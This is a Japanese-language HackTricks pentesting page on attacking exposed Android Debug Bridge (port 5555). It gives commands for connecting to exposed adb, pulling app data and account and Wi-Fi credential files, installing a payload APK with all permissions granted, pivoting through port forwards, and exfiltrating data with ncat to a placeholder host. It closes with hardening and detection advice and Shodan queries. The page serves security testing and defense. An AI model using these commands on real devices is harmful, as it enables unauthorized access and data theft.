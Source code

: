 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 基本情報

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) は、Androidベースのデバイスやエミュレーターと通信するためのコマンドラインツールです。典型的なアクションには、パッケージのインストール、デバッグ、およびデバイス上でのインタラクティブなUnixシェルの取得が含まれます。

- 歴史的なデフォルトTCPポート: 5555 (クラシックな "adb tcpip" モード)。
- 現代のワイヤレスデバッグ (Android 11+) は、TLSペアリングとmDNSサービス発見を使用します。接続ポートは動的で、mDNSを介して発見されます; 5555でない場合もあります。ペアリングはadb pair host:portの後にadb connectを使用して行います。攻撃的な影響については、以下のノートを参照してください。

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## 接続

ADBが公開され、到達可能である場合は、迅速に接続して列挙を試みてください:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- デバイスがADB認証を強制する場合 (ro.adb.secure=1)、事前に認証されている必要があります (USB RSA認証) またはAndroid 11以上のワイヤレスデバッグペアリングを使用する必要があります (これはデバイスに表示される一時コードが必要です)。
- 一部のベンダーイメージ、エンジニアリング/ユーザーデバッグビルド、エミュレーター、テレビ、STB、および開発キットは、認証なしでadbdを公開するか、rootとしてadbdを実行します。その場合、通常はシェルまたはルートシェルに直接入ります。

一般的なADBコマンドのリファレンスについては、次を参照してください:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## クイックポストエクスプロイテーション

シェルを取得したら、権限とSELinuxコンテキストを検証します:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### データの列挙とキャプチャ

- サードパーティアプリとパスのリスト:
```bash
pm list packages -3
pm path <pkg>
```
- ルート権限がある場合（adb rootまたはsuが機能します）、/dataに直接アクセスできます。そうでない場合は、デバッグ可能なアプリにはrun-asを使用してください:
```bash
# ルートなしで、デバッグ可能なアプリの場合
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# ルートあり
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 有用なシステムアーティファクト（ルートが必要）:
- /data/system/users/0/accounts.dbおよび関連するAccountManagerデータ
- /data/misc/wifi/（古いバージョンのネットワーク設定/キー）
- /data/data/<pkg>のアプリ固有のSQLite DBおよびshared_prefs

これを使用して機密情報（例：アプリの秘密）を取得できます。Chromeデータに関する考慮事項についてのメモは、[こちら](https://github.com/carlospolop/hacktricks/issues/274)で参照してください。

### コード実行とペイロード配信

- ランタイム権限をインストールして自動付与:
```bash
adb install -r -g payload.apk         # -gはマニフェストで宣言されたすべてのランタイム権限を付与します
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- アクティビティ/サービス/ブロードキャストを直接開始:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### ポートフォワーディングとピボティング

ルートなしでも、adbはローカルポートをデバイスポートに転送できますし、その逆も可能です。これは、デバイス上でローカルにバインドされたサービスにアクセスしたり、攻撃者のサービスをデバイスに公開したりするのに便利です。

- ホスト->デバイスを転送（ホストからデバイスのローカルサービスにアクセス）:
```bash
adb forward tcp:2222 tcp:22       # デバイスがSSHを実行している場合（例：Termux/Dropbear）
adb forward tcp:8081 tcp:8080     # アプリのローカルデバッグサーバーを公開
```
- デバイス->ホストを逆転送（デバイスがホスト上のサービスにアクセスできるようにする）:
```bash
adb reverse tcp:1080 tcp:1080     # デバイスアプリは今、ホスト:1080に127.0.0.1:1080としてアクセスできます
```
- ソケットを介したファイルの抽出（sdcardへの書き込みなし）:
```bash
# ホストで: リッスン
ncat -lvp 9000 > dump.tar
# デバイスで: ディレクトリをtarとして送信（ルートまたはrun-asが適用される）
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## ワイヤレスデバッグ（Android 11+）

最新のAndroidは、デバイス側のペアリングとmDNS発見を伴うTLS保護されたワイヤレスデバッグを実装しています:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
ノート
- ポートは動的であり、5555を前提にしないでください。mDNSサービス名は次のようになります：
- _adb-tls-pairing._tcp (ペアリング)
- _adb-tls-connect._tcp (ペア接続)
- _adb._tcp (レガシー/プレーン)
- mDNSがフィルタリングされている場合、古典的なUSB支援による有効化は一部のビルドでまだ機能する可能性があります：`adb tcpip 5555` その後 `adb connect <ip>:5555`（再起動まで）。

攻撃的な含意：デバイスのUIと対話できる場合（例：物理的アクセスまたはモバイルMDMの誤設定）にワイヤレスデバッグを有効にし、ペアリングコードを表示できると、ケーブルなしで長期間のペアADBチャネルを確立できます。一部のOEMは、ペアリングなしでエンジニアリング/開発イメージでTCP経由のADBを公開しています—常に確認してください。

## ハードニング / 検出

防御者は、到達可能なadbd（TCP）が重大なリスクであると仮定すべきです。

- 不要な場合はADBとワイヤレスデバッグを無効にしてください。開発者オプションでUSBデバッグの承認を取り消してください。
- 信頼できないセグメントでのTCP/5555の受信およびmDNSベースのADB発見をブロックするネットワークポリシーを確保してください。
- あなたの管理下にあるデバイスで：
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCPリスニングを無効にする（または：adb usbを使用）
stop adbd; start adbd             # デーモンを再起動
```
- 企業ネットワークでのmDNSレコード `_adb._tcp`、`_adb-tls-connect._tcp`、`_adb-tls-pairing._tcp` を監視し、予期しない5555リスナーに対してアラートを出してください。
- 安全でないビルドのインベントリ： `getprop ro.debuggable`、`ro.build.type`、および `ro.adb.secure`。

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 参考文献

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}

